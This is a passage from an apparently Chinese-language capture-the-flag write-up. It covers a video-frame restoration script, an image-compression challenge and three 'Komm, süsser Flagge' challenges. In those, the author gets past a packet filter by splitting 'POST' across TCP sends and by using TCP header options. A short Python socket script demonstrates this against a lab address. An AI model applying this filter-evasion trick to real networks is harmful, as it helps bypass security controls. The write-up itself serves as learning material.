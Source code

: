 ```python
    buffer.resize(frame_count * frame_height * frame_width * 3, refcheck=False)
    buffer = buffer.reshape((frame_count * frame_height * frame_width, 3))
    buffer = buffer.reshape((frame_count, frame_height, frame_width, 3))

    vidcap = cv2.VideoWriter(file, cv2.VideoWriter_fourcc(
        *'mp4v'), 24.0, (frame_width, frame_height))
    for i in range(frame_count):
        vidcap.write(buffer[i])
    vidcap.release()

if __name__ == "__main__":
    with open("video.bin", "rb") as input:
        # guess_width(input)
        restore_video("video.mp4", input)
```

不过值得注意的是最后生成的视频会丢失 1 行 1 列的像素, 似乎是编码器仅支持偶数倍的长宽.

## 🪐 低带宽星球
### 小试牛刀
直接上 webp 完事.

## Komm, süsser Flagge
### 我的 POST
### 我的 P
### 我的 GET

这三题实际上甚至可以用同一段代码完成.

第一第二题都是利用的就是分包发送, 第三题利用的是 TCP Header 的 Option 区域, 这俩并不冲突, 稍微调整下就能同时实现, 不过当时我还是写了两个程序. <del>raw socket 用 Python 实现太麻烦了.</del>

另外, 第二题其实还有一种办法, 就是利用紧急指针在数据区的第一个字节处放置一个除 P 以外的字符, 然后在后面跟上正常的 HTTP 数据包, 不过因为这道题 iptable 规则漏洞直接用第一题的方法过了, 所以没有完全实现, 不知道有没有感兴趣的接着研究一下.

第一二题脚本如下:

```python
with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as so:
    so.connect(("192.168.23.1", 18080))
    so.send("PO".encode())
    so.send("""ST / HTTP/1.1
Host: 192.168.23.1:18080
Connection: keep-alive
Pragma: no-cache
Cache-Control: no-cache
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.0.0 Safari/537.36
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7,ja;q=0.6
Accept-Encoding: gzip, deflate
Content-Length: 100

{id}:{token}""".encode())
    print(so.recv(1000).decode())
```
